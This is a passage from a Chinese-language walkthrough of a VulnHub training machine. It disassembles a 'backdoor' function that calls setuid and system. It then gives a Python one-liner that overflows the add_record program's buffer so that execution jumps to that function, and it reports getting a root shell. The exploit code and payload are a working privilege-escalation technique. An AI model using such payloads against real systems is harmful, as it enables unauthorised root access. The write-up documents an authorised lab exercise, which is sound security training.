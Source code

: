发现了一个可疑函数 backdoor，查看其汇编代码：

```bash
gdb-peda$ disas backdoor
Dump of assembler code for function backdoor:
   0x08048676 <+0>: push   ebp
   0x08048677 <+1>: mov    ebp,esp
   0x08048679 <+3>: push   ebx
   0x0804867a <+4>: sub    esp,0x4
   0x0804867d <+7>: call   0x80485b0 <__x86.get_pc_thunk.bx>
   0x08048682 <+12>:    add    ebx,0x16c6
   0x08048688 <+18>:    sub    esp,0xc
   0x0804868b <+21>:    push   0x0
   0x0804868d <+23>:    call   0x8048530 <setuid@plt>
   0x08048692 <+28>:    add    esp,0x10
   0x08048695 <+31>:    sub    esp,0xc
   0x08048698 <+34>:    lea    eax,[ebx-0x13f8]
   0x0804869e <+40>:    push   eax
   0x0804869f <+41>:    call   0x80484f0 <system@plt>
   0x080486a4 <+46>:    add    esp,0x10
   0x080486a7 <+49>:    nop
   0x080486a8 <+50>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080486ab <+53>:    leave  
   0x080486ac <+54>:    ret    
End of assembler dump.
```

backdoor 调用了 setuid 和 system 函数，也许能够获取到 root 权限的 shell，那么目标就变成了将 backdoor 的函数地址 0x08048676 溢出到 EIP 上。

按照要求编写输入字符串：

```bash
python -c "import struct;print('1\n1\n1\n1\n'+'A'*62+struct.pack('I',0x08048676))" > payload
cat payload - | ./add_record
```

[![](assets/1699406763-19d12ca11eae46692fde8fc236ec813f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104550-c3361454-7d17-1.png)

将得到的 payload 作为输入执行 add\_record 程序后成功获取 root 权限

## 总结

这个 vulnhub 靶机环境比较综合，涉及 Web 及二进制两个方面，在专注一个方向的同时，需要能够对另一个方向有基本的认识与了解。在对目标进行测试时，需要抓住一切可能利用的二进制程序代码。
